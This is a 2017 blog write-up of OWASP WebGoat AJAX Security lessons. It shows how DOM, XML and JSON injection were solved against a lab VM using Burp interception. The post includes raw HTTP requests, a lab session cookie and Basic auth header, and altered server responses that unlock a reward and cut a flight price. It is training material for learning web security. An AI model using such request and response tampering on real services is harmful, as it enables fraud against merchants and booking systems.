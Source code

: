 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge Part 3 (Continued)"
date:   2017-01-24 17:00:00 -0500
categories: webgoat
---
```

# AJAX Security Part 5: Dom Injection
Alright, we're given the following instructions for this challenge:
* Your victim is a system that takes an activation key to allow you to use it.
* Your goal should be to try to get to enable the activate button.
* Take some time to see the HTML source in order to understand how the key validation process works.

Let's take a look at the HTML that defines the ```Activate``` button

```
<input disabled="" id="SUBMIT" value="Activate!" name="SUBMIT" type="SUBMIT">
```

Hmm..disabled? But, what if we just...

```
<input enabled="" id="SUBMIT" value="Activate!" name="SUBMIT" type="SUBMIT">
```

<img src="{{ site.baseurl }}/images/2017-01-24-webgoat_part_3_continued/dom-injection.jpg">

Well, okay! ```¯\_(ツ)_/¯```

# AJAX Security Part 6: XML Injection
We're given the following instructions for this challenge:

<img src="{{ site.baseurl }}/images/2017-01-24-webgoat_part_3_continued/xml-injection.jpg">

Looks like we're probably going to need to fire up Burp and check out some requests. Now I have to be honest, I spent *a lot* of time messing around with requests and trying to see the breadcrumb I was missing. Then I realized that there was an option to capture the response to a given request in Burp...Which it turns out was pretty essential to solving this one. So when I finished typing in my account number (836239), an AJAX request fired out:

```
GET /WebGoat/attack?Screen=59&menu=400&from=ajax&accountID=836239 HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://192.168.56.101/WebGoat/attack?Screen=59&menu=400
Cookie: JSESSIONID=C1702A9FE913D04E2F177203213F9149; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada
Authorization: Basic dXNlcjp1c2Vy
Connection: close
```

Alright, cool. Looks like it's going to retrieve my list of possible rewards from the webserver. I set Burp to intercept the server response and let it fly. The server did in fact come back with the list of rewards I was allowed to request:

```
HTTP/1.1 200 OK
Content-Length: 136
Connection: close

<root>
<reward>WebGoat Mug 20 Pts</reward>
<reward>WebGoat t-shirt 50 Pts</reward>
<reward>WebGoat Secure Kettle 30 Pts</reward>
</root>
```

But, I felt like I had been good this year. That and I'm pretty sure running 16.04 on my macbook is going to result in a fireball. So let's get a new laptop!

```
HTTP/1.1 200 OK
Content-Length: 136
Connection: close

<root>
<reward>WebGoat Mug 20 Pts</reward>
<reward>WebGoat t-shirt 50 Pts</reward>
<reward>WebGoat Secure Kettle 30 Pts</reward>
<reward>WebGoat Core Duo Laptop 2000 Pts</reward>
</root>
```

<img src="{{ site.baseurl }}/images/2017-01-24-webgoat_part_3_continued/xml-injection-1.jpg">

Cool, it looks like we can select the laptop that wasn't previously on our list of rewards. Let's send it out and see if we can game the system:

```
POST /WebGoat/attack?Screen=59&menu=400 HTTP/1.1
Host: 192.168.56.101
Content-Length: 82

accountID=836239&check1001=on&check1002=on&check1003=on&check1004=on&SUBMIT=Submit
```

S-(e)[u]-rve-(r)[y] says.....

<img src="{{ site.baseurl }}/images/2017-01-24-webgoat_part_3_continued/xml-injection-2.jpg">

Nice!

# AJAX Security Part 7: JSON Injection
JavaScript Object Notation, or JSON, is a data-interchange format that a lot of applications use for passing information back and forth. It is language-independent, which is desirable for applications, clients, and servers talking to each other when it can't be guaranteed that they all use the same backend language. In this challenge, we have a flight to catch:
* You are traveling from Boston, MA- Airport code BOS to Seattle, WA - Airport code SEA.
* Once you enter the three digit code of the airport, an AJAX request will be executed asking for the ticket price.
* You will notice that there are two flights available, an expensive one with no stops and another cheaper one with 2 stops.
* Your goal is to try to get the one with no stops but for a cheaper price. 

At first glance, it looks to me like another case of response interception and alteration. So firing up Burp (or I guess just keeping it open), I intercepted the request for a flight from BOS to SEA. Then I marked the server response to be intercepted and took a look:

```
{
	"From": "Boston",
	"To": "Seattle", 
	"flights": [
		{"stops": "0", "transit" : "N/A", "price": "$600"},
		{"stops": "2", "transit" : "Newark,Chicago", "price": "$300"} 
	]
}
```

Which pops up in the browser like so:

<img src="{{ site.baseurl }}/images/2017-01-24-webgoat_part_3_continued/json-injection-1.jpg">

Alright, lets request again and modify the server's response to see if we can manipulate the return data. I changed the price of our non-stop flight to the affordable price of $10 and forwarded it back to the browser. 

<img src="{{ site.baseurl }}/images/2017-01-24-webgoat_part_3_continued/json-injection-2.jpg">

And, when we send it...Got it! Apparently no server-side checks for validity. Nice.